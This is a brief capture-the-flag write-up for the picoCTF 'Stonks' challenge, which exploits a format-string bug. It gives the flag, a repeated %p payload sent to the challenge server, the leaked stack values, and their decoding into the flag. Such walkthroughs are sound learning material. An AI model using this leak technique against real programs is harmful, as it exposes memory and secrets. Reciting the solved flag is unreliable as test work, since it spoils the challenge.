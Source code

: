 # Stonks

## FLAG: picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}

Category: Binary-Exploit

Description: I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 27912

> wget "https://mercury.picoctf.net/static/17ba7f9351aca192c45833c658742fe5/vuln.c"

pass the program %p to get a valid pointer - so no sanitization of user input

if we pass the program a ton of %s%s%s%s%s%s%s we can see the overflow error / core dump

1
%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p__%p

## Output

0x97643b0__0x804b000__0x80489c3__0xf7efdd80__0xffffffff__0x1__0x9762160__0xf7f0b110__0xf7efddc7__(nil)__0x9763180__0x2__0x9764390__0x97643b0__0x6f636970__0x7b465443__0x306c5f49__0x345f7435__0x6d5f6c6c__0x306d5f79__0x5f79336e__0x32666331__0x30613130__0xff9a007d__0xf7f38af8__0xf7f0b440__0x2753b500__0x1

Then run buffer.py to use the output to decode the bytes. - This results in:

b"picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}\x00\x9a\xff\xf8\x8a\xf3\xf7@\xb4\xf0\xf7\x00\xb5S'"
